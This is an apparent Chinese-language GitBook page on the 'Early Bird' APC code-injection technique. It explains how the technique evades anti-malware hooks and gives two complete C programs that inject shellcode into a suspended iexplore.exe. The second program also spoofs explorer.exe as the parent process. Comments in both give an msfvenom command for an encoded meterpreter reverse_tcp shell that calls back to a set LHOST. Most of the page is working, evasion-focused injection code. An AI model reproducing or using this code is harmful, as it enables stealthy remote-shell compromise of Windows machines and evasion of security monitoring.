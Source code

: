 # Early Bird

## Early Bird简介

Early Bird是一种简单而强大的技术，Early Bird本质上是一种APC注入与线程劫持的变体，由于线程初始化时会调用ntdll未导出函数NtTestAlert，该函数会清空并处理APC队列，所以注入的代码通常在进程的主线程的入口点之前运行并接管进程控制权，从而避免了反恶意软件产品的钩子的检测，同时获得一个合法进程的环境信息。

## Early Bird流程

1. 创建一个挂起的进程\(通常是windows的合法进程\)
2. 在挂起的进程内申请一块可读可写可执行的内存空间
3. 往申请的空间内写入shellcode
4. 将APC插入到该进程的主线程
5. 恢复挂起进程的线程

![](../.gitbook/assets/image%20%289%29.png)

## 代码实现

```text
#include <stdio.h>
#include <windows.h>
//msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor_dynamic -i 14 LHOST=192.168.0.106 EXITFUNC=thread -f
unsigned char shellcode[] = "";
int main() {
    STARTUPINFO si = {0};
    PROCESS_INFORMATION pi = {0};
    si.cb = sizeof(STARTUPINFO);

    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW, NULL, NULL, (LPSTARTUPINFOA)&si, &pi);
    LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(pi.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(pi.hProcess, lpBaseAddress, (LPVOID)shellcode, sizeof(shellcode), NULL);
    QueueUserAPC((PAPCFUNC)lpBaseAddress, pi.hThread, NULL);
    ResumeThread(pi.hThread);
    CloseHandle(pi.hThread);

    return 0;
}
```

## 配合FakePPID和FakeCurrentDirectory使用

```text
#include <stdio.h>
#include <windows.h>
#include <TlHelp32.h>


DWORD FindExplorerPID() {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, L"explorer.exe"))
                break;
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}

int main() {

    //msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/xor_dynamic -i 14 LHOST=192.168.0.106 EXITFUNC=thread -f
    unsigned char shellcode[] = ("");


    STARTUPINFOEXA siex;
    PROCESS_INFORMATION piex;
    SIZE_T sizeT;
    siex.StartupInfo.cb = sizeof(STARTUPINFOEXA);

    SetCurrentDirectoryA("C:\\Program Files\\internet explorer\\");

    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, false, FindExplorerPID());

    InitializeProcThreadAttributeList(NULL, 1, 0, &sizeT);
    siex.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, sizeT);
    InitializeProcThreadAttributeList(siex.lpAttributeList, 1, 0, &sizeT);
    UpdateProcThreadAttribute(siex.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hProcess, sizeof(HANDLE), NULL, NULL);
    
    
    CreateProcessA("C:\\Program Files\\internet explorer\\iexplore.exe", NULL, NULL, NULL, TRUE, CREATE_SUSPENDED | CREATE_NO_WINDOW | EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, (LPSTARTUPINFOA)&siex, &piex);
    LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(piex.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(piex.hProcess, lpBaseAddress, (LPVOID)shellcode, sizeof(shellcode), NULL);
    QueueUserAPC((PAPCFUNC)lpBaseAddress, piex.hThread, NULL);
    ResumeThread(piex.hThread);
    CloseHandle(piex.hThread);

    return 0;
}
```

![](../.gitbook/assets/image%20%2831%29.png)

![](../.gitbook/assets/image%20%286%29.png)

## LINKS

{% embed url="https://www.securitynewspaper.com/2018/04/17/new-early-bird-code-injection-technique/" %}

{% embed url="https://blog.csdn.net/weixin\_42052102/article/details/83348780" %}





